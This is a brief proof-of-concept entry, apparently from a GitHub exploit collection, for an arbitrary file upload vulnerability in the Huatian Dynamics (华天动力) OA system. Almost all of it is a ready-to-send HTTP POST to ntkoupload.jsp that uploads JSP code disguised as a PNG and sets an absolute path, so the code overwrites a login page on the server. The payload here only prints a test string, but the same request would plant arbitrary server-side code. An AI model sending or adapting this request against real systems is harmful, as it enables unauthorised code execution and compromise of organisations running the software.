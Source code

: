 # htoa_upload_fileupload

from: https://github.com/wy876/POC/blob/main/%E5%8D%8E%E5%A4%A9%E5%8A%A8%E5%8A%9B/%E5%8D%8E%E5%A4%A9%E5%8A%A8%E5%8A%9BOA%E7%B3%BB%E7%BB%9Fupload.jsp%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.md
product: 华天动力OA

```
POST /OAapp/htpages/app/module/trace/component/fileEdit/ntkoupload.jsp HTTP/1.1
Host: x.x.x.x:xx
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzRSYXfFlXqk6btQm
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 389

------WebKitFormBoundaryzRSYXfFlXqk6btQm
Content-Disposition: form-data; name="EDITFILE"; filename="xxx.txt"
Content-Type: image/png

<%out.print("123");%>
------WebKitFormBoundaryzRSYXfFlXqk6btQm
Content-Disposition: form-data; name="newFileName"

D:/htoa/Tomcat/webapps/OAapp/htpages/app/module/login/normalLoginPageForOther.jsp
------WebKitFormBoundaryzRSYXfFlXqk6btQm--
```
